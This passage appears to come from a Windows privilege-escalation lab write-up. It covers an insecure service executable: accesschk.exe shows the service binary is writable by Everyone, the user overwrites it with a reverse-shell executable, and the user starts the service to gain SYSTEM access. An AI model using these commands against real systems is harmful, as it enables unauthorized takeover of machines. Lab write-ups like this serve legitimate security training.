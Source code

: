 ### 4. Insecure Service Executables

Obviously, if the service executable itself is modifiable by us, we can replace its content by a malicious program. 

![](img/filepermsvc.png)

Using **accesschk.exe**, we can notice that the service binary (`BINARY_PATH_NAME`) file is writable by everyone (RW Everyone - FILE_ALL_ACCESS):

```cmd
C:\Users\user>C:\PrivEsc\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"

  Medium Mandatory Level (Default) [No-Write-Up]
  RW Everyone
        FILE_ALL_ACCESS
  RW NT AUTHORITY\SYSTEM
        FILE_ALL_ACCESS
  RW BUILTIN\Administrators
        FILE_ALL_ACCESS
  RW WIN-QBA94KB3IOF\Administrator
        FILE_ALL_ACCESS
  RW BUILTIN\Users
        FILE_ALL_ACCESS
```

Let's check that we can start/stop the service:

```cmd
C:\Users\user>C:\PrivEsc\accesschk.exe /accepteula -uvqc user filepermsvc

R  filepermsvc
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_START
        SERVICE_STOP
        READ_CONTROL
```

Now we can replace the service binary by our reverse shell executable but first let's create a backup of it:

```cmd
C:\Users\user>copy "C:\Program Files\File Permissions Service\filepermservice.exe" C:\Temp
        1 file(s) copied.

C:\Users\user>copy C:\PrivEsc\reverse-shell.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y
        1 file(s) copied.

C:\Users\user>net start filepermsvc
net start filepermsvc
```
